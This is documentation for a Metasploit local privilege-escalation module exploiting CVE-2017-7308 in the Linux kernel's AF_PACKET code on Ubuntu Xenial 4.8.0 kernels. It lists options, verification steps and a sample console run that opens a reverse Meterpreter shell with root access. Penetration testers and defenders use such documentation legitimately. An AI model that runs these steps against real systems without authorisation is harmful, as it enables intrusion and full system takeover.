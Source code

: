 ## Description

  This module exploits a heap-out-of-bounds write in the `packet_set_ring`
  function in `net/packet/af_packet.c` (`AF_PACKET`) in the Linux kernel
  to execute code as `root` (CVE-2017-7308).

  The bug was initially introduced in 2011 and patched in version 4.10.6,
  potentially affecting a large number of kernels; however this exploit
  targets only systems using Ubuntu Xenial kernels 4.8.0 < 4.8.0-46,
  including Linux distros based on Ubuntu Xenial, such as Linux Mint.

  The target system must have unprivileged user namespaces enabled and
  two or more CPU cores.

  Bypasses for SMEP, SMAP and KASLR are included. Failed exploitation
  may crash the kernel.


## Vulnerable Application

  This module has been tested successfully on Linux Mint 18 (x86_64)
  with kernel versions:

  * 4.8.0-34-generic
  * 4.8.0-36-generic
  * 4.8.0-39-generic
  * 4.8.0-41-generic
  * 4.8.0-42-generic
  * 4.8.0-44-generic
  * 4.8.0-45-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use af_packet_packet_set_ring_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf5 > use exploit/linux/local/af_packet_packet_set_ring_priv_esc 
  msf5 exploit(linux/local/af_packet_packet_set_ring_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/af_packet_packet_set_ring_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.ZxgWSP2O1.c' (19378 bytes) ...
  [*] Writing '/tmp/.jfPl4uPX2' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (857352 bytes) to 172.16.191.207
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.207:41882) at 2018-04-27 19:55:21 -0400
  [+] Deleted /tmp/.ZxgWSP2O1.c
  [+] Deleted /tmp/.ZxgWSP2O1
  [+] Deleted /tmp/.jfPl4uPX2
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.207
  OS           : LinuxMint 18 (Linux 4.8.0-45-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

